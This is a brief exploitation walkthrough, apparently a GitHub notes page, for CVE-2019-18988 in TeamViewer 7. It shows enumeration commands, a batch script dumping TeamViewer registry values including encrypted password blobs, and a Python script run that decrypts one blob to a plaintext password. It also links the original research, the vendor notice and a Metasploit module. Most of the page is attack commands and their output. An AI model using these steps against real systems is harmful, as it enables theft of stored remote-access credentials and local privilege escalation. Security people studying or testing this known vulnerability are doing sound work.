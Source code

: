 # CVE-2019-18988 - TeamViewer7 - decrypt password - Local Privilege Escalation

## Enumeration

```powershell
PS C:\Temp> tasklist /svc | findstr /I teamviewer
TeamViewer_Service.exe        2248 TeamViewer7
```

```powershell
PS C:\> Get-Service TeamViewer*

Status   Name               DisplayName
------   ----               -----------
Running  TeamViewer7        TeamViewer 7
```

```powershell
PS C:\> C:\Temp\CVE-2019-18988.bat
...
    Version    REG_SZ    7.0.43148
...
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x659d58d6
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3
...
```

## Exploitation

```bash
$ cat CVE-2019-18988.py | grep 'password = "'
password = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"
```

```bash
$ python3 CVE-2019-18988.py
00000000: 21 00 52 00 33 00 6D 00  30 00 74 00 65 00 21 00  !.R.3.m.0.t.e.!.
00000010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
None
!R3m0te!
```

## Links

- [whynotsecurity - teamviewer](https://whynotsecurity.com/blog/teamviewer/)
- [teamviewer - CVE-2019-18988](https://community.teamviewer.com/t5/Announcements/Specification-on-CVE-2019-18988/td-p/82264)
- [Metasploit - TeamViewer password Module](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb)
